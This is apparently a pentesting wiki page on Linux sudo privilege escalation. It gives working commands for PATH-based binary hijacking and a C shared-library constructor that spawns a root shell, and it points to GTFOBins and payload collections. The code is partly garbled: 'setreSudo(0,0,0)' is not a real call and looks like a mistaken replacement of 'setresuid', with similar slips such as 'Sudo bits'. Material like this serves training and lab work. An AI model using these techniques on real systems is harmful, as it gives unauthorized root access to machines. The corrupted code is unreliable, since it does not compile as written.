 # SUDO Binaries

## Theory

Sudo is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur if the binaries that you can run with sudo is not properly setup

## Practice

### Known Sudo Binaries Exploits

{% tabs %}
{% tab title="GTFOBins" %}
If you find that a binary have the Sudo bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known Sudo exploits.
{% endtab %}
{% endtabs %}

### Relative Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** binary executes another command **without specifying the full path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **Sudo** binary.

```bash
strings ./the-sudo-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **Sudo** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the Sudo binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-sudo-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **Sudo** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **Sudo** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a Sudo using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The Sudo also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **Sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setreSudo(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the Sudo binary

```bash
sudo ./the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./Sudo_bin: symbol lookup error: ./Sudo_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}


### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}